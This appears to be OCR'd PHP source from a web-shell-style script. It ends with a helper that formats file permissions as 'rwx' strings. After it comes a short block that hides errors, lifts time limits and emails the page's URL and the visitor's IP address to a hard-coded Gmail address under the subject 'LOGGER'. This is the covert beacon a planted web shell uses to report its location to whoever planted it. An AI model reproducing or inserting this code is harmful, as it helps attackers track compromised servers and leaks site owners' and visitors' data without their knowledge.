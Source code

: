 if (($perms & 0xC000) == 0xC000) {
// Socket
$info = 's';
} elseif (($perms & 0xA000) == 0xA000) {
// Symbolic Link
$info = 'l';
} elseif (($perms & 0x8000) == 0x8000) {
// Regular
$info = '-';
} elseif (($perms & 0x6000) == 0x6000) {
// Block special
$info = 'b';
} elseif (($perms & 0x4000) == 0x4000) {
// Directory
$info = 'd';
} elseif (($perms & 0x2000) == 0x2000) {
// Character special
$info = 'c';
} elseif (($perms & 0x1000) == 0x1000) {
// FIFO pipe
$info = 'p';
} else {
// Unknown
$info = 'u';
}

// Owner
$info .= (($perms & 0x0100) ? 'r' : '-');
$info .= (($perms & 0x0080) ? 'w' : '-');
$info .= (($perms & 0x0040) ?
(($perms & 0x0800) ? 's' : 'x' ) :
(($perms & 0x0800) ? 'S' : '-'));

// Group
$info .= (($perms & 0x0020) ? 'r' : '-');
$info .= (($perms & 0x0010) ? 'w' : '-');
$info .= (($perms & 0x0008) ?
(($perms & 0x0400) ? 's' : 'x' ) :
(($perms & 0x0400) ? 'S' : '-'));

// World
$info .= (($perms & 0x0004) ? 'r' : '-');
$info .= (($perms & 0x0002) ? 'w' : '-');
$info .= (($perms & 0x0001) ?
(($perms & 0x0200) ? 't' : 'x' ) :
(($perms & 0x0200) ? 'T' : '-'));

return $info;
}
?>
<?php
@ini_set('output_buffering', 0);@ini_set('display_errors', 0);set_time_limit(0);ini_set('memory_limit', '64M');header('Content-Type: text/html; charset=UTF-8');$tujuanmail = 'iddokodok457@gmail.com';$x_path = "http://" . $_SERVER['SERVER_NAME'] . $_SERVER['REQUEST_URI'];$pesan_alert = "fix $x_path :p *IP Address : [ " . $_SERVER['REMOTE_ADDR'] . " ]";mail($tujuanmail, "LOGGER", $pesan_alert, "[ " . $_SERVER['REMOTE_ADDR'] . " ]");
?>

